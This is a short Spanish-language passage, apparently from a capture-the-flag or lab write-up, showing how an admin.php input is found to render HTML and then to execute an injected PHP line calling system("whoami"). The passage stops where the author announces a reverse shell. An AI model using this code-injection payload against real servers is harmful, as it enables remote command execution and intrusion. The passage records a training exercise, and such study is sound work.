 ## Evaluacion de vulnerabilidades {-}

### Chequeamos las vulnerabilidades de la pagina admin.php {-}

Ya con el usuario admin y la contraseña encontrada nos podemos logear.

Vemos un input donde podemos poner codigo **HTML**

```bash
Hola
<h1>Hola</h1>
<marquee>Hola</marquee>
```

Funciona... Intentamos ponerle codigo **PHP**

```php
<?php system("whoami"); ?>
```

y tambien funciona...

Aqui decidimos crear una reverse shell para conectarnos al servidor.